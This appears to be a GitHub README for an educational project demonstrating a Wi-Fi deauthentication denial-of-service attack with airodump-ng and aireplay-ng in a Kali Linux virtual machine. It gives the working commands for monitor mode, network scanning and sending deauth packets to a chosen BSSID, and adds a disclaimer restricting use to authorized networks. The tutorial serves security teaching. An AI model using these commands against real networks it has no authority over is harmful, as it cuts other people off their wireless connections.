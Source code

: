 # WiFi-DoS-Attack-Cybersecurity-Education  
*A Kali Linux project using `airodump-ng` and `aireplay-ng` to simulate a Wi-Fi deauthentication (DoS) attack in a secure lab environment for cybersecurity education.*

### [YouTube Demonstration🎥](https://youtu.be/W_J2TSroKSA?si=SB779y5ZXOHBHsrQ)

---

## 📘 Description  
This project demonstrates how wireless networks can be scanned and disrupted using `airodump-ng` and `aireplay-ng`—tools included in Kali Linux. Performed inside a **virtual machine** for safety, this simulation is strictly for educational use to help learners understand how Wi-Fi attacks work and how to defend against them.

---

## 🎯 Main Goal  
To raise awareness about Wi-Fi network vulnerabilities by showing how attackers can use tools to disconnect users from a wireless network through deauthentication attacks. The goal is to promote defensive strategies and responsible cybersecurity practices.

---

## 💼 Tools Used  
- **Virtual Machine**: UTM (version 3.2.4)  
- **Operating System**: Kali Linux  
- **Wi-Fi Tools**:  
  - `airodump-ng`: For scanning nearby wireless networks  
  - `aireplay-ng`: For sending deauthentication packets (DoS simulation)  
- **Wi-Fi Adapter**: USB adapter with monitor mode support

---

## 🖥️ Environment  
- **Host OS**: macOS  
- **Guest OS**: Kali Linux (in UTM virtual machine)  
- **Hardware**: External USB Wi-Fi adapter (monitor mode enabled)

---

## 🦺 Step-by-Step Walkthrough  

### ✅ Step 1: Set Up Kali Linux in Virtual Machine  
- Installed Kali Linux inside UTM on macOS  
- Connected external USB Wi-Fi adapter to Kali VM  

### ✅ Step 2: Enable Monitor Mode  
Run the following commands in the Kali terminal:
```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

### ✅ Step 3: Scan Wi-Fi Networks  
Start scanning for nearby networks using:
```bash
sudo airodump-ng wlan0
```
- You’ll see BSSID, channel, signal strength, and more.  
- Choose **your own network** for the demonstration.

<img src="https://imgur.com/hdC77iR.png" height="80%" width="80%" alt="Scanning"/>

<br />
<br />

### ✅ Step 4: Launch Deauthentication Attack  
Disconnect clients from your test network (DoS simulation):
```bash
sudo aireplay-ng --deauth 50 -a [Target_BSSID] wlan0
```
- Replace `[Target_BSSID]` with your network's BSSID  
- Sends 50 deauthentication packets to disconnect connected devices  

<img src="https://imgur.com/MAYFtk7.png" height="80%" width="80%" alt="Attack Time"/>
<br />
<br />

### ✅ Step 5: Stop and Reset Adapter  
Stop the attack with `Ctrl + C`. Restore adapter mode:
```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type managed
sudo ip link set wlan0 up
```

---

## 📌 Project Summary  
This project shows how wireless networks can be temporarily disrupted using basic tools in Kali Linux. It helps learners understand common Wi-Fi attack techniques and underscores the importance of securing wireless networks against unauthorized access or disruptions.

---

## ⚠️ Disclaimer  
- This project is for **educational and ethical hacking training only**.  
- All demonstrations were conducted on **authorized private networks** in a **virtual lab environment**.  
- **Never use these tools** on public or unauthorized networks.  
- Unauthorized network attacks are **illegal and unethical**.  
- Always follow **local laws** and **cybersecurity best practices**.
